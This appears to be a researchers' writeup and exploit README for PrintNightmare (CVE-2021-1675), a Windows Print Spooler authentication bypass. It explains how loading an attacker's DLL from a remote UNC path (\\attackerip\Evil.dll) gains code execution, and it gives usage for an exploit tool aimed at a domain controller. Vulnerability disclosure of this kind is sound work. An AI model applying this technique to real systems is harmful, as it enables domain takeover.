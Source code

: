 ## PrintNightmare (CVE-2021-1675): Remote code execution in Windows Spooler Service

 

Ten years ago, an escalation of privilege bug in Windows Printer Spooler was used in Stuxnet, which is a notorious worm that destroyed the nuclear enrichment centrifuges of Iran and infected more than 45000 networks. In the past ten years, spooler still has an endless stream of vulnerabilities disclosed, some of which are not known to the world, however, they are hidden bombs that could lead to disasters. Therefore, we have focused on spooler over the past months and reaped fruitfully.

 

The beginning of the research is PrintDemon from which we get inspiration. After digging into this bug deeper, we found a way to bypass the patch of MS. But just after MS released the new version, we immediately found a new way to exploit it again. After the story of PrintDemon, we realized that spooler is still a good attack surface, although security researchers have hunted for bugs in spooler for more than ten years. We started to explore the inner working of Printer Spooler and discovered some 0-day Bugs in it. Some of them are more powerful than PrintDemon and easier to exploit, and the others can be triggered from remote which could lead to remote code execution.

 

CVE-2021-1675 is a remote code execution in Windows Print Spooler. According to MSRC security bullion, this vulnerability is reported by Zhipeng Huo, Piotr Madej and Zhang Yunhai. 

We also found this bug before and hope to keep it secret to participate Tianfu Cup ☹. As there are some people already published exploit video of CVE-2021-1675. Here we publish our writeup and exploit for CVE-2021-1675. 

 

For more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

 

## RpcAddPrinterDriver

Adding a Printer Driver to a Server (RpcAddPrinterDriver)

Let check the MS-RPRN: Print System Remote Protocol about the RpcAddPrinterDriver call.

To add or update a printer driver ("OEM Printer Driver") to a print server ("CORPSERV"), a client ("TESTCLT") performs the following steps.

1. The client can use the RPC call RpcAddPrinterDriver to add a driver to the print server.

2. The client ensures that the files for the printer driver are in a location accessible to the server. For that purpose, the client can share a local directory containing the files, or use [MS-SMB] to place the files into a directory on the server

3. The client then allocates and populates a DRIVER_INFO_2 structure as follows:

   pName = L"OEM Printer Driver";

   pEnvironment = L"Windows NT x86"; /* Environment the driver is compatible with */

   pDriverPath = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDRV.DLL";315 / 415

   [MS-RPRN] - v20200826

   Print System Remote Protocol

   Copyright © 2020 Microsoft Corporation

   Release: August 26, 2020

   pDataFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDATA.DLL";

   pConfigFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMUI.DLL";

4. The client allocates a DRIVER_CONTAINER driverContainer structure and initializes it to contain the DRIVER_INFO_2 structure.

5. The client calls RpcAddPrinterDriver.

   RpcAddPrinterDriver( L"\\\\CORPSERV", &driverContainer );

 

## CVE-2021-1675 Analysis

Clearly, if an attacker can bypass the authentication of RpcAddPrinterDriver. He could install an malicious driver in the print server. In msdn, the client need SeLoadDriverPrivilege to call the RPC. However, this isn’t true. Let check the authentication logical here:

![img](./img/rootcause.png)

ValidateObjectAccess is a normal security check for Spooler Service. But in line 19 and 20, argument a4 is user controllable. So, a normal user can bypass the security check and add an driver. If you are in the domain, a normal domain user can connect to the Spooler service in the DC and install a driver into the DC. Then he can fully control the Domain.

 

## Exploit

But the real attack is not that simple. To exploit the authentication bypass bug, we need to understand what the Spooler service will do when you calling RpcAddPrinterDriver. Suppose you supply there path to the service

​	pConfigFile = A.dll

​	pDataFile =\\attackerip\\Evil.dll

​	pDriverPath=C.dll

 

It will copy A,B and C into folder C:\Windows\System32\spool\drivers\x64\3\new. And then it will copy them to C:\Windows\System32\spool\drivers\x64\3, and load C:\Windows\System32\spool\drivers\x64\3\A.dll and C:\Windows\System32\spool\drivers\x64\3\C.dll into the Spooler service. However, in the latest version, Spooler will check to make sure that A and C are local files. But as B can be an remote UNC path, so we can set pDataFile as an UNC path (an evildll). This will make our evildll Evil.dll be copied into C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. Then call RpcAddPrinterDriver again, to set pConfigFile to be C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. It will load our evil dll. Unfortunate, it does not work. Because if you set A, B, C in the folder C:\Windows\System32\spool\drivers\x64\3\. There will be an access conflict in file copy. To bypass this, we need to use the backup feature of driver upgrade. If we upgrade some driver, the old version will be backup into C:\Windows\System32\spool\drivers\x64\3\old\1\ folder. Then we can bypass the access conflict and success inject our evil.dll into spooler service. 

Successfully load our dll:

 ## Usage



```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123##
```

 ![img](./img/Result.png)

 ![img](./img/logfile.png)
Tested on windows sever 2019 1809 17763.1518




## Impact

This vulnerability can be used to achieve LPE and RCE. As for the RCE part, you need a user to authenticated on the Spooler service. However, this is still critical in Domain environment. Because normally DC will have Spooler service enable, a compromised domain user may use this vulnerability to control the DC.

 

Here are more hidden bombs in Spooler, which is not public known. We will share more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

## Credit

Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)
